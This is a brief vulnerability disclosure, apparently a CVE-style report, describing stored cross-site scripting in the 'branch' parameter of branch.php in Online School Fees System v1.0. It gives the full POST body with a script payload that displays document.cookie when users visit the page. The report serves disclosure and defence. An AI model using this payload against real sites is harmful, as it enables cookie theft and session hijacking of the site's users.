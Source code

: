 # Online School Fees System v1.0 has stored cross-site scripting

BUG_Author: zhangyf

Website source code address: https://www.sourcecodester.com/php/11708/online-school-fees-system.html

Vulnerability File: /paysystem/branch.php

POST parameter "branch" exists stored cross-site scripting vulnerability

Payload: branch=<script>alert(document.cookie)</script>&address=1&detail=2&id=&action=add&save=

![image](https://github.com/M9KJ-TEAM/CVEReport/blob/main/1.png)

Payload will trigger when a user visits on http://localhost/paysystem/branch.php

![image](https://github.com/M9KJ-TEAM/CVEReport/blob/main/2.png)



